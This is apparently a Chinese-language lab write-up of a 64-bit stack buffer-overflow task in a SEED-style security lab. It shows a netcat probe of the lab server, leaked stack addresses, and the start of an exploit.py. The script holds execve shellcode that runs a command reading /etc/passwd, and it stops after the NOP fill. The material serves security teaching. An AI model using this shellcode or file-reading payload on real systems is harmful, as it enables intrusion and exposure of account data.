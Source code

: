 ## Task 4: Level-3 Attack

本 task 重点在于处理 64 位地址的 buffer。实验手册这样描述本实验遇到的问题：

> Compared to buffer-overflow attacks on 32-bit machines, attacks on 64-bit machines is more
> difficult. The most difficult part is the address. Although the x64 architecture supports 64-bit address space,
> only the address from `0x00` through `0x00007FFFFFFFFFFF` is allowed. That means for every address (8 bytes), the highest two bytes are always zeros. This causes a problem.
> In our buffer-overflow attacks, we need to store at least one address in the payload, and the payload will
> be copied into the stack via `strcpy()`. We know that the `strcpy()` function will stop copying when it
> sees a zero. Therefore, if a zero appears in the middle of the payload, the content after the zero cannot be
> copied into the stack. How to solve this problem is the most difficult challenge in this attack.

解决方法是 ret 采用 little endian，复用地址中的 `\0x00\0x00`。

同样的，我们先 `echo hello`

```shell
$ echo hello | nc 10.9.0.7 9090
^C
```

```plaintext
server-3-10.9.0.7 | Got a connection from 10.9.0.1
server-3-10.9.0.7 | Starting stack
server-3-10.9.0.7 | Input size: 6
server-3-10.9.0.7 | Frame Pointer (rbp) inside bof(): 0x00007fffffffe610
server-3-10.9.0.7 | Buffer's address inside bof ():   0x00007fffffffe540
server-3-10.9.0.7 | ==== Returned Properly ====
```

修改 `exploit.py`

```python
#!/usr/bin/python3
import sys

# You can use this shellcode to run any command you want
shellcode = (
    "\xeb\x36\x5b\x48\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x48"
    "\x89\x5b\x48\x48\x8d\x4b\x0a\x48\x89\x4b\x50\x48\x8d\x4b\x0d\x48"
    "\x89\x4b\x58\x48\x89\x43\x60\x48\x89\xdf\x48\x8d\x73\x48\x48\x31"
    "\xd2\x48\x31\xc0\xb0\x3b\x0f\x05\xe8\xc5\xff\xff\xff"
    "/bin/bash*"
    "_C*"
    # You can modify the following command string to run any command.
    # You can even run multiple commands. When you change the string,
    # make sure that the position of the * at the end doesn't change.
    # The code above will change the byte at this position to zero,
    # so the command string ends here.
    # You can delete/add spaces, if needed, to keep the position the same.
    # The * in this line serves as the position marker         *
    "/bin/ls -l; echo Hello 64; /bin/tail -n 4 /etc/passwd     *"
    "AAAAAAAA"   # Placeholder for argv[0] -- > "/bin/bash"
    "BBBBBBBB"   # Placeholder for argv[1] -- > "-c"
    "CCCCCCCC"   # Placeholder for argv[2] -- > the command string
    "DDDDDDDD"   # Placeholder for argv[3] -- > NULL
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

##################################################################
```